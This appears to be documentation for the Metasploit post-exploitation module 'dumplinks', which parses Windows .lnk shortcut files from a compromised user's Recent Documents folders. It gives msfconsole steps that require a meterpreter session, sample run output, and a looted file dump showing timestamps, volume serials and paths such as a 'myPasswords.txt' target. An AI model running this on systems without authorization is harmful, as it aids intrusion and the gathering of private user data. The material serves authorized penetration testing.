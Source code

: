 
## Vulnerable Application

  The dumplinks module is a modified port of Harlan Carvey's lslnk.pl Perl script. This module will parse .lnk files from a user's
  Recent Documents folder and Microsoft Office's Recent Documents folder, if present. Windows creates these link files automatically
  for many common file types. The .lnk files contain time stamps, file locations, including share names, volume serial numbers, and more.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dumplinks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  ***
  SESSION
  ***
  The session to run the module on.


## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49160) at 2019-12-11 15:45:16 -0700

  msf > use post/windows/gather/dumplinks
  msf post(windows/gather/dumplinks) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dumplinks) > run

    [*] Running module against TEST-PC
    [*] Extracting lnk files for user TEST at C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\...
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk.
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\Network and Internet.lnk.
    [*] No Recent Office files found for user TEST. Nothing to do.
    [*] Post module execution completed
  ```

## Example of looted .lnk output

  ```
  [*] exec: cat /root/.msf4/loot/20191211154832_default_192.168.1.10_host.windows.lnk_124491.txt

  C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Access Time       = 2019-12-11 23:44:39 -0700
          Creation Date     = 2019-12-11 23:44:39 -0700
          Modification Time = 2019-12-11 23:44:39 -0700
  Contents of C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Flags:
                  Shell Item ID List exists.
                  Shortcut points to a file or directory.
                  The shortcut has a relative path string.
                  The shortcut has working directory.
          Attributes:
                  Target was modified since last backup.
          Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
          ShowWnd value(s):
                  SW_NORMAL.
                  SW_SHOWMAXIMIZED.
                  SW_SHOW.
                  SW_SHOWMINNOACTIVE.
                  SW_RESTORE.
        Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
        Shortcut file is on a local volume.
                  Volume Name =
                  Volume Type = Fixed
                  Volume SN   = 0x548EF20B
        Target path = C:\Users\TEST\Desktop\myPasswords.txt&..\..\..\..\..\Desktop\myPasswords.txtC:\Users\TEST\Desktop(
      ```
